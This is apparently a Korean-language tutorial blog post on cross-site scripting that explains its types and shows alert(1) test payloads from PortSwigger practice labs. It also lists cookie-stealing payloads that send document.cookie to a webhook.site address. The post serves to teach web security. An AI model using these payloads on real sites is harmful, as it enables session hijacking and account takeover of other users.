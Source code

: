 ```yaml
---
title: "XSS(Cross Site Script)"
date: 2022-01-26 +0900
img_path: /assets/img/posts/xss_cross_site_script
categories: [Web-Hacking]
tags: ['web', 'xss', 'client side attack', '2022']
---
```

## XSS란?

XSS는 **Cross Site Script**의 약어로써 공격자가 웹 리소스에 **악성 스크립트를 삽입**하는 공격입니다.

웹 이용자는 해당 스크립트를 실행시키면서 계정의 세션 정보를 탈취 당할 수 있고, 공격자는 세션정보를 통해 다른 이용자의 계정으로 임의의 기능을 수행할 수 있습니다.

### XSS는 언제 발생되는가?

- 사용자의 입력한 내용을 그대로 출력하는 기능에서 주로 발생합니다.
- HTML, CSS, JS와 같은 코드가 포함된 게시물을 조회할 경우 공격자가 입력한 스크립트가 실행될 수 있습니다.

### XSS 종류

| 종류 | 설명 |
| :--- | :--- |
| Reflected XSS | 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS |
| Stored XSS | 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS |
| Dom-based XSS | 악성 스크립트가 DOM 내부의 동작을 통해서 실행되는 XSS |
| Universal XSS | 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS |

## XSS 스크립트

스크립트를 삽입할 수 만 있다면 JS로 원하는 기능들을 수행할 수 있습니다(CORS, SOP 같은 mitigation으로 인해서 실행에 제약이 걸리는 경우를 제외하면…).

아래와 같이 `alert(1)` 을 이용해 창을 띄워서 XSS가 가능한지 테스트를 하거나, cookie를 탈취하는 스크립트를 주로 사용합니다.

또한 스크립트를 작성할 때 `<script>` 태그를 사용해주기도 하고 `onerror`, `onload` 와 같은 Event Listner를 통해서 JS 코드를 실행시키기도 합니다.



```jsx
<script>alert(1)</script>
<script>location.href='https://webhook.site/.../?x='+document.cookie</script>
<img src=x onerror="location.href='https://webhook.site/.../?x='+document.cookie">
...
```

> **위의 예시 외에도 여러가지 방법으로 스크립트를 작성할 수 있고, 필터링이 되었을 때 우회하는 방법도 존재합니다.**
{: .prompt-info }

## Reflected XSS

- 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다.
- 검색창을 통해 스크립트를 포함해서 검색하는 방식이 있습니다.
- Click Jacking 또는 Open Redirect 등 다른 취약점과 연계해서 사용됩니다.

다음은 PostSwigger에서 만든 [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
GET /?search=<script>alert(1)</script> HTTP/2
```

![Untitled.png](Untitled.png)
_Reflect XSS로 alert창을 띄운 화면_

## Stored XSS

- 서버에 데이터베이스 또는 파일 등으로 저장된 컨텐츠를 조회할 때 발생하게 됩니다.
- 주로 게시글 또는 댓글을 업로드할 때 악성 스크립트를 포함시키는 방식이 있습니다.

다음은 PostSwigger에서 만든 [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
POST /post/comment HTTP/2
Host: 0a6100980435d4358088942100db000f.web-security-academy.net
...

Id=5&comment=<img src=x onerror=alert(1)>&name=asdf&email=asdf%40asdf.adsf&website=
```

![Untitled%201.png](Untitled%201.png)
_사용자가 입력한 스크립트가 그대로 삽입된 것을 볼 수 있다_

![Untitled%202.png](Untitled%202.png)
_Stored XSS로 alert창을 띄운 화면_